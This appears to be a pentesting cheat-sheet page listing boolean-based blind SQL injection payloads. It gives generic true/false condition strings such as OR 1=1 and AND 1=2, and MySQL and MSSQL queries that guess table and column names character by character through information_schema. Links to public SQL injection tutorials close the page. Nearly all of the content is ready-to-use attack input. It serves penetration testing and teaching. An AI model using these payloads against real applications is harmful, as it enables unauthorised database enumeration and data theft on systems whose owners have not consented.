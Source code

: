```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - webapp-pentesting
  - server-side-attack
  - blind-sql-injection
---
```

# Boolean-based Payloads

## Exploit

### Generic

```
OR 1=1
OR 1=1 LIMIT 1
OR '1'='1'
OR '1'='1' LIMIT 1
OR 1=2
OR 1=2 LIMIT 1
AND 1=1
AND 1=1 LIMIT 1
AND '1'='1'
AND '1'='1' LIMIT 1
AND 1=2
AND 1=2 LIMIT 1
```

## Enumeration

### Tables

#### MySQL

```
AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
```

#### MSSQL

```
AND SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables > 'A'
```

### Columns

#### MySQL

```
AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
```

#### MSSQL

```
AND SELECT SUBSTRING(column_name,1,1) FROM information_schema.columns > 'A'
```

---
## References

### GBHackers

- [GBHackers: Web Application Pentesting - Manual SQL Injection With Error Based String Method](https://gbhackers.com/manual-sql-injection/)

- [GBHackers: How to Perform Manual SQL Injection While Pentesting With Single Quote Error-Based Parenthesis Method](https://gbhackers.com/manual-sql-injection-2/)

- [GBHackers: Web Application Pentesting with Manual SQL Injection - Integer Based](https://gbhackers.com/perform-manual-sql-injection/)

### WebSec

- [WebSec: SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)

### Osanda

- [Osanda: MySQL Blind Injection in Insert and Update Statements](https://osandamalith.com/2017/03/13/mysql-blind-injection-in-insert-and-update-statements/)